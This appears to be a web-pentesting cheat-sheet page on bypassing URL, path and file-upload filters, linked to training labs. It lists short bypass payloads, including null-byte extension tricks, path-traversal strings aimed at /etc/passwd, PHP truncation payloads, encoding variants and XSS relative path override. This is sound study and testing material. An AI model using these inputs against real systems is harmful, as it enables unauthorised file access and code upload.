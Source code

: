 # URL and Path Bypasses

<div class="row row-cols-lg-2"><div>

#### Extension Filter Bypass — Null Byte

[![fileuploadattacks](../../../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)
[![uploadvulns](../../../../../_badges/thmp/uploadvulns.svg)](https://tryhackme.com/room/uploadvulns)
[![null_byte](../../../../../_badges/rootme/web_server/null_byte.svg)](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Null-byte)

The null byte <small>(PHP < 5.3.4)</small> could be used to bypass filters:

```text!
malicious.php%00.png -> malicious.php
malicious.php\x00.png -> malicious.php
```

#### Extension Filter Bypass — Windows Trail

[![fileuploadattacks](../../../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)

This is only possible on Windows targets:

```text!
file.php:.jpg -> file.php
```

#### Extension Filter Bypass — PHP String Truncation

We can exploit PHP string truncation in **PHP < 5.3.0** to craft a payload. From my experience, it only works when the string has a certain size which is often strictly equals to 4095.

```py!
# must be an odd number of characters in the path
payload = 'a/../admin.html' + '/.' * 2026
payload = 'abc/../admin.html' + '/.' * 2025
payload = 'admin.html/' + '/.' * 2028
```
</div><div>

#### Character Filter Bypass — Remove Filter

A filter removing invalid characters may not be recursive.

```text!
../ -> 
....// -> ../ 
....\/ -> ../ 
```

#### Character Filter Bypass — URL Encoding

There may be a discrepancy between the system that verify the request and the one that is processing the request.

- [ ] Attempt a mix of URL-encoding `.%2e%2f` for edge cases
- [ ] Use double URL encoding <small>(for recursive parsers)</small>
- [ ] Attempt `..%c0%af` or `..%ef%bc%8f`

#### Filename Filter Bypass — Path Extension

If there is a filter strings such as `/etc/passwd`.

```text!
/etc/passwd   ===========> 
/etc//passwd  =====Linux=> /etc/passwd 
/etc/./passwd ===PHP 5.3=> /etc/passwd 
```
</div></div>

<hr class="sep-both">

## Advanced Techniques

<div class="row row-cols-lg-2"><div>

#### XSS Relative Path Override (RPO)

[![xss_reflected](../../../../../_badges/rootme/web_client/xss_reflected.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)

Usually, a URL such as `http://example.com/a/../toto` is processed and replaced with `http://example.com/toto` before it is used.

We can use a mix of URL encoding and not encoded characters to create a URL that is not shortened but still point to a relative folder.

```diff
-https://example.com/../toto/index.php
+https://example.com/..%2Ftoto/index.php
```

This can be used to trick checks like "URL starts with".
</div><div>
</div></div>